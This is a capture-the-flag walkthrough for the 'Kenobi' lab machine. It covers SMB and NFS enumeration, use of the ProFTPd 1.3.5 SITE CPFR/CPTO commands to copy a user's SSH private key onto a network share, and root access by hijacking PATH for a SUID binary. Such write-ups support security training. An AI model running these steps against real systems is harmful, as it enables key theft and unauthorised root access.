 # Kenobi

Tasks:

1. Deploy the vulnerable machine:
   1. Do usual nmap scan with `nmap -sV ip` and complete the task.
2. Enumerating samba for shares:
   1. Do scan with `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`
   2. Connect to anonymous smb share with no password `smbclient //ip/anonymous`&#x20;
   3. Get all files from share recursively using `smbget -R smb:///anonymous` .You can see there's log.txt which gives information about ftp port number and also kenobi's ssh private key location.
   4. From nmap output port 111 is open and rpcbind running behind it. Use `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount ip` to enumerate mount - /var is available as mount through network file system.
3.  Gain initial access with ProFTPd:

    1. Use `nc ip 21` to connect to ftp. ProFTPd version used is 1.3.5. Use searchsploit find exploits  for the ProFTPd server used. &#x20;
    2. connect to ftp server and type `SITE CPFR /home/kenobi/.ssh/id_rsa`  and `SITE CPTO /var/tmp/id_rsa` to copy ssh private key to nfs share.
    3. Mount NFS share to your machine , copy ssh private key from /var/tmp to current working directory and ssh into kenobi using&#x20;
       1. `mkdir /mnt/kenobiNFS`
          `mount machine_ip:/var /mnt/kenobiNFS`
          `ls -la /mnt/kenobiNFS`
       2. `cp /mnt/kenobiNFS/tmp/id_rsa . `
       3. `ssh -i id_rsa kenobi@ip`
    4. `cat /home/kenobi/user.txt` and submit user flag&#x20;

4. Privilege Escalation with Path Variable Manipulation:
   1. Find binaries with suid bit set using `find / -perm -u=s -type f 2>/dev/null` 
   2. /usr/bin/menu seems looks out of ordinary
   3. Using strings on menu , we find that curl is called without full path ,So we can copy /bin/sh as curl to tmp path and export tmp path using `echo /bin/sh > /tmp/curl`  , `chmod 777 /tmp/curl` , `export PATH=/tmp:$PATH` 
   4. Now run /usr/bin/menu and select option 1 , you will get root shell._
   5. `cat /root/root.txt` and submit root flag.



References:

1. [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
